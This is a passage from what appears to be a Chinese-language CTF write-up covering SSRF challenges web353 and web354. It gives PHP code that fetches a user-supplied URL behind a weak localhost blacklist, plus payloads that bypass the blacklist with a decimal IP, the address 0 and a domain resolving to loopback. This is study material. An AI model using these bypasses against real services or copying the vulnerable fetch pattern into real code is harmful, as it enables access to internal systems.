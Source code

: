 ```
http://localhost/flag.php
http://127.0.0.1/flag.php
http://2130706433/flag.php
```

## web353(整形ip)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

payload

```
使用sudo.cc代替127.0.0.1/localhost url=http://sudo.cc/flag.php
在Linux中0表示自身的地址 可以使用http://0/flag.php 绕过
http://2130706433/flag.php
```

## web354(域名DNS重定向)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
```